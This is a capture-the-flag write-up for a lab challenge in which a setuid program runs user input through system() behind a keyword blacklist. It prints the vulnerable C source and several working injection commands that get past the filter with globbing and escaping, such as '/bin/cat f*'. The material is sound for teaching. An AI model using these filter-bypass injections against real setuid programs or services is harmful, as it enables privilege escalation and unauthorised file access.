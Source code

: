 first of all I needed to do some recon.
first of seeing what files I have available

```bash
cmd1@ubuntu:~$ ls -l
total 24
-r-xr-sr-x 1 root cmd1_pwn 16056 Mar 21 09:49 cmd1
-rw-r--r-- 1 root root       353 Mar 21 09:47 cmd1.c
-r--r----- 1 root cmd1_pwn    46 Apr  1 06:06 flag
```
seeing these I could see the setuid permission on the cmd1 file.
this meant that I could run it with the permissions of cmd1_pwn.

knowing this I opened cmd1.c read it's code
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        setregid(getegid(), getegid());
        system( argv[1] );
        return 0;
}
```

seeing this I knew that I could print the flag using this code piece.
I decided to try and give the program an env variable that I created to pass the flag file path
`cmd1@ubuntu:~$ export FIlE=flag; ./cmd1 cat $FILE`

this did not work. and returned this error:
`sh: 1: cat: not found`

after some research I understood that it was because that the PATH env was reset at the start of the program
```c
putenv("PATH=/thankyouverymuch");
```
so I had to give the absolute path to the command

`cmd1@ubuntu:~$ export FIlE=flag; ./cmd1 /bin/cat $FILE`

this command froze the program because I forgot that I did not give one argv containing the command but two
```c
argv[1]="/bin/cat"
argv[2]="$FILE"
```

so once combining them into one string the command just did not work because it was caught in the `filter` function. apparently the env vars are parsed before sent so I had to think in a different direction.

I tried running using python the following command (but obviously it did not work)
`cmd1@ubuntu:~$ ./cmd1 "python -c 'import os; os.system(\"/bin/cat $FILE\")'"`
because it still parsed the env var `FILE`

Now I remembered that I can use and asterix to cat all of the files and since the flag was the last one I had no problem.
and this worked
`cmd1@ubuntu:~$ ./cmd1 "/bin/cat *"`

**Other Solutions**
`cmd1@ubuntu:~$ ./cmd1 "/bin/cat f*"`
`cmd1@ubuntu:~$ export file=flag; ./cmd1 "/bin/cat \$file"`
`cmd1@ubuntu:~$ ./cmd1 "/bin/cat f\lag"`